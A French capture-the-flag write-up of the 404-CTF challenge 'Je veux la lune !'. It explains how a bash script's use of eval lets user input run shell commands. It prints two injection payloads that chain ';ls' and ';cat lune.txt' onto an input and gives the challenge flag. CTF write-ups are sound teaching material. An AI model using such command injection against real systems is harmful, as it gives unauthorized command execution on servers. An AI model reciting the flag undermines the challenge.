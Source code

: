 # Write-Up 404-CTF : Je veux la lune !

__Catégorie :__ Exploitation de binaires - Introduction

**Enoncé :**

![Enoncé du challenge](images/enonce.png)

**Fichiers :** donne_moi_la_lune.sh

**Résolution :**

Dans ce challenge, nous devons exploiter un script bash afin de récupérer un flag sur un serveur distant.

On remarque très vite la fonction `eval`, qui va évaluer n'importe quelle chaîne de caractère (mais uniquement lors du premier `grep`).

Nous pouvons déjà faire un premier repérage en tentant la commande `bob informations.txt; ls #`

```
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
> bob informations.txt; ls #
donne_moi_la_lune.sh
informations.txt
lune.txt
```
La commande fonctionne. On peut voir plusieurs fichier sur le serveur comme le script, `informations.txt` mais aussi `lune.txt`.  
Nous n'avons qu'à injecter la commande `bob informations.txt; cat lune.txt #` pour avoir le flag.

**Flag :** `404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}`